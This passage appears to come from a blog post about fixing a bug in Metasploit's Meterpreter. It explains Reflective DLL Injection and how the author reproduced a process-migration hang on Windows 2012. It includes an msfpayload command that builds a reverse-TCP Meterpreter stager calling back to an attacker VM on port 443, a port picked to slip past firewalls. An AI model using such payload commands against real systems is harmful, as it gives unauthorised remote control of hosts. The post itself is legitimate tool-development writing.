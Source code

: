 Simply put, Reflective DLL Injection is a method for injection a DLL into a process. No surprises there. However, it has some nifty properties that make a great candidate for use in tools such as Meterpreter. Some of those points include:

* Position-independence.
* Lack of host system registration.
* Largely undetectable on the target at both a system and process level.

The canonical paper \[[PDF][rdi_paper]\], written by [Stephen Fewer][], is well worth reading and can be found on the [Harmony Security][] website. Read it. It's amazing, and does a much better job of explaining itself than I could ever hope to. I would like to point out that there's a multi-stage process involved which includes:

* Writing the code to an executable area of memory.
* Executing the loader which creates a valid DLL image in memory.
* Calling [DllMain][] on the loaded DLL.
* Returning control to the process that invoked it.

With that in mind, let's take a look at the bug.

The Bug
-------

The bug that was reported related to process migration, and went something like this (paraphrased slightly with a bit more information):

> Trying to migrate Metepreter between processes on Windows 2012 seems to be
> unreliable. It will migrate just fine into some processes, such as _explorer.exe_,
> without any problems. However, spawning another process, such as _notepad.exe_, and
> migrating to it hangs the entire session. Migrating to the _winlogon.exe_ process
> crashes the entire user environment on the target host.

When I first read this report I thought "Wow, how am I going to track this down?", and I'll admit that I was a little intimidated at first, especially given that I knew that the native Windows Meterpreter was using Reflective DLL Injection to load itself into other processes. However, it's been a long time since I'd been tasked with something this challenging and so, deep down, I was looking forward to diving in.

Replication
-----------

The first step was to fire up a Windows 2012 virtual machine and replicate the problem. Windows 2012 only comes in a 64-bit flavour, so picking the right version wasn't a problem.

After installation, I needed to simulate an attack coming from Metasploit so that I could interact with Meterpreter to perform the migration.

Creating a payload to do this is really simple thanks to [msfpayload][] (part of Metasploit). On my [Backtrack][] VM I used the following command to generate the PE image:

    root@bt:~# msfpayload windows/x64/meterpreter/reverse_tcp LHOST=10.5.26.40 LPORT=443 X > 40-443-x64.exe

This command creates a 64-bit Windows executable that contains a small stager. This stager connects to `10.5.26.40` (my Backtrack VM) on port `443` (I always choose the HTTPS port to avoid potential outbound firewall issues). Once connected it will download the Meterpreter payload and establish a session with Metasploit.


  [KronicDeth]: https://twitter.com/KronicDeth "Luke Imhoff @ Twitter"
  [met_native]: https://github.com/rapid7/meterpreter "Native Meterpreter"
  [Metasploit framework]: http://www.metasploit.com/ "Metasploit Framework"
  [penetration test]: http://en.wikipedia.org/wiki/Penetration_test "Penetration Testing"
  [msf_source]: https://github.com/rapid7/metasploit-framework/ "Metasploit Framework Source"
  [Rapid7]: http://www.rapid7.com/ "Rapid 7"
  [r7_blog]: https://community.rapid7.com/community/metasploit/blog/2013/09/05/weekly-update "Weekly Update: Meterpreter Updates, VMWare, the OSX spycam, Retabbing, and more!"
  [rdi_paper]: http://www.harmonysecurity.com/files/HS-P005_ReflectiveDllInjection.pdf "Reflective DLL Injection"
  [Harmony Security]: http://harmonysecurity.com/ "Harmony Security"
  [Stephen Fewer]: http://twitter.com/stephenfewer
  [DllMain]: http://msdn.microsoft.com/en-us/library/windows/desktop/ms682583(v=vs.85).aspx "DllMain Entry Point"
  [msfpayload]: http://www.offensive-security.com/metasploit-unleashed/Msfpayload "msfpayload"
  [Backtrack]: http://www.backtrack-linux.org/ "Backtrack Linux"
  [DebugView]: http://technet.microsoft.com/en-au/sysinternals/bb896647.aspx "DebugView"
  [Windbg]: http://en.wikipedia.org/wiki/WinDbg "Windbg"
  [dbg_tools]: http://msdn.microsoft.com/en-us/windows/hardware/gg463009.aspx "Debugging Tools for Windows"
  [OutputDebugString]: http://msdn.microsoft.com/en-us/library/windows/apps/aa363362(v=vs.85).aspx "OutputDebugString function"
  [DWORD]: http://msdn.microsoft.com/en-us/library/cc230318.aspx "DWORD"
  [ULONG_PTR]: http://msdn.microsoft.com/en-us/library/cc230394.aspx "ULONG_PTR"
  [ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization "Adress Space Layout Randomisation"
  [sf_pr]: https://github.com/rapid7/meterpreter/pull/14